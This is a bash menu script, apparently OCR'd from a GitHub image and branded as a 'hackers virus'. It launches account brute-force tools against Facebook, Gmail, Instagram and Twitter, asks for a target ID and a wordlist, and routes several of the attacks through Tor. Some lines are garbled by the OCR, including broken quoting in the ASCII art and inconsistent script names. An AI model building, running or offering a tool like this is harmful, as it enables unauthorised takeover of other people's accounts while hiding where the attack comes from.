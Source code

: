 #!/bin/bash
#Colors
white="\033[1;37m"
grey="\033[0;37m"
purple="\033[0;35m"
red="\033[1;31m"
green="\033[1;32m"
yellow="\033[1;33m"
Purple="\033[0;35m"
Cyan="\033[0;36m"
Cafe="\033[0;33m"
Fiuscha="\033[0;35m"
blue="\033[1;34m"
nc="\e[0m"

       echo -e "$red by Mujahid .$nc"

#Installation
sleep 1
echo -e "Checking Installation $nc"
bash install-sb.sh >> /dev/null
echo -e "Checking Completed [$green✓$nc] $nc "
sleep 1
clear
#Startup
echo -e "$green"
echo "		
echo "_________________________________"
echo "< BIN MOHAMMAD MAJE HACKERS VIRUS >"
 echo "---------------------------------"
echo "    \"
 echo "    \"
   echo "                                .::!!!!!!!:."
echo "  .!!!!!:.                        .:!!!!!!!!!!!!"
echo "  ~~~~!!!!!!.                 .:!!!!!!!!!UWWW$$$"
echo "    :$$NWX!!:           .:!!!!!!XUWW$$$$$$$$$P"
echo "     $$$$$##WX!:      .<!!!!UW$$$$"  $$$$$$$$#"
echo "      $$$$$  $$$UX   :!!UW$$$$$$$$$   4$$$$$*"
echo "      ^$$$B  $$$$\     $$$$$$$$$$$$   d$$R"
echo "    "*$bd$$$$      '*$$$$$$$$$$$o+#"
echo "         """"          """"""""
  echo "  __  __ _    _      _         _    _ _____ _____      |  \/  | |  | |    | |  /\   | |  | |_   _|  __ \"
  echo "| \  / | |  | |    | | /  \  | |__| | | | | |  | |"
echo " | |\/| | |  | |_   | |/ /\ \ |  __  | | | | |  | |"
 echo "| |  | | |__| | |__| / ____ \| |  | |_| |_| |__| |"
echo -e "|_|  |_|\____/ \____/_/    \_\_|  |_|_____|_____/          $nc $blue v2.beta$nc"
#echo -e "	[+]              $red Coded By muja.hid$nc         		   [+]"
#echo -e "	[+] 		 $red Mujahid .net $nc 		   [+]"
#echo -e "	[+] 		 $red Greetz To All Pentesters$nc          		   [+]"
#echo -e "	[+]$red Special Greetz To$nc :$green {thelinuxchoice , Ha3MrX, Tunisian Eagles, Mujahid }$nc [+]"
echo ""
echo -e "$yellow Select From Menu : $nc"
echo ""
echo -e "		$Cyan 1 : Brute Force Facebook Account$nc"
echo -e "		$Cyan 2 : Brute Force Gmail Account$nc"
echo -e "		$Cyan 3 : Brute Force Instagram Account 1$nc"
echo -e "		$Cyan 4 : Brute Force Twitter Account$nc"
echo -e "		$Cyan 5 : Brute Force Instagram Account 2 $nc"
echo -e "		$Cyan 99: Exit$nc"
read -p "Choice >  " ch
if [ $ch = 1 ]; then
echo -e "			$Cyan Facebook Brute Force$nc"
echo -e "$green"
read -p "Enter Facebook ID / Email / Username / Number: " id
read -p "Enter wordlist path : " wordlist
echo -e "$nc"
cd facebook
perl fb-brute.pl $id $wordlist
echo -e " 		[+]$yellow Brute Force Complete $nc[$green✓$nc] $nc[+]"
echo -e "$red"
read -p "Wanna Back To Main Menu [ Y / n ] : " check
echo -e "$nc"
if [ $check = "Y" ]; then
cd .. && bash Mujahid .sh
elif [ $check = "y" ]; then
cd .. && bash Mujahid .sh
elif [ $check = "Yes" ]; then
cd .. && bash Mujahid .sh
elif [ $check = "yes" ]; then
cd .. && bash Mujahid .sh
elif [ $check = "YES" ]; then
cd .. && bash Mujahid .sh
else
exit 1
fi
elif [ $ch = 2 ]; then
echo -e "			$Cyan Gmail Brute Force$nc"
cd Gemail-Hack
python2 gemailhack.py
echo -e "               [+]$yellow Brute Force Complete $nc[$green✓$nc] $nc[+]"
echo -e "$red"
read -p "Wanna Back To Main Menu [ Y / n ] : " check2
echo -e "$nc"
if [ $check2 = "Y" ]; then
cd .. && bash Mujahid .sh
elif [ $check2 = "y" ]; then
cd .. && bash Mujahid .sh
elif [ $check2 = "Yes" ]; then
cd .. && bash Mujahid .sh
elif [ $check2 = "yes" ]; then
cd .. && bash Mujahid .sh
elif [ $check2 = "YES" ]; then
cd .. && bash Mujahid .sh
else
exit 1
fi
elif [ $ch = 3 ]; then
echo -e "			$Cyan Instagram Brute Force 1$nc"
cd instainsane/
sleep 0.025
	echo -e "	[+]$red tor $nc[+]"
sleep 0.9
sv tor start
./instainsane.sh
echo -e "               [+]$yellow Brute Force Complete $nc[$green✓$nc] $nc[+]"
sv tor stop
#echo -e "		[+]$red Service Tor Stopped$nc [+]"
echo -e "$red"
read -p "Wanna Back To Main Menu [ Y / n ] : " check3
echo -e "$nc"
if [ $check3 = "Y" ]; then
cd .. && bash Mujahid .sh
elif [ $check3 = "y" ]; then
cd .. && bash Mujahid .sh
elif [ $check3 = "Yes" ]; then
cd .. && bash Mujahid .sh
elif [ $check3 = "yes" ]; then
cd .. && bash Mujahid .sh
elif [ $check3 = "YES" ]; then
cd .. && bash Mujahid .sh
else
exit 1
fi
elif [ $ch = 4 ]; then
echo -e "			$Cyan Twitter Brute Force$nc"
cd tweetshell/
sleep 0.025
        echo -e "	[+]$red Service Tor Stated $nc[+]"
sleep 0.9
sv tor start
bash tweetshell.sh
echo -e "               [+]$yellow Brute Force Complete $nc[$green✓$nc] $nc[+]"
sv tor stop
echo -e "		[+]$red Service Tor Stopped$nc [+]"
echo -e "$red"
read -p "Wanna Back To Main Menu [ Y / n ] : " check4
echo -e "$nc"
if [ $check4 = "Y" ]; then
cd .. && bash Mujahid .sh
elif [ $check4 = "y" ]; then
cd .. && bash Mujahid .sh
elif [ $check4 = "Yes" ]; then
cd .. && bash mujahid.sh
elif [ $check4 = "yes" ]; then
cd .. && bash Mujahid .sh
elif [ $check4 = "YES" ]; then
cd .. && bash Mujahid .sh
else
exit 1
fi
elif [ $ch = 5 ]; then
echo -e "			$Cyan Instagram Brute Force 2$nc"
cd insta-bf/
sleep 0.025
        echo -e "	[+]$red Service Tor Started $nc[+]"
sleep 0.9
sv tor start
python instabf.py
echo -e "               [+]$yellow Brute Force Complete $nc[$green✓$nc] $nc[+]"
sv tor stop
echo -e "		[+]$red Service Tor Stopped$nc [+]"
echo -e "$red"
read -p "Wanna Back To Main Menu [ Y / n ] : " check5
echo -e "$nc"
if [ $check5 = "Y" ]; then
cd .. && bash Mujahid .sh
elif [ $check5 = "y" ]; then
cd .. && bash Mujahid .sh
elif [ $check5 = "Yes" ]; then
cd .. && bash Mujahid .sh
elif [ $check5 = "yes" ]; then
cd .. && bash Mujahid .sh
elif [ $check5 = "YES" ]; then
cd .. && bash Mujahid .sh
else
exit 1
fi
elif [ $ch == 99 ]; then
echo -e "$red Program Exit ...$nc"
sleep 0.25
exit 1
else
echo "Not Found 404 , Exit"
exit 1
fi
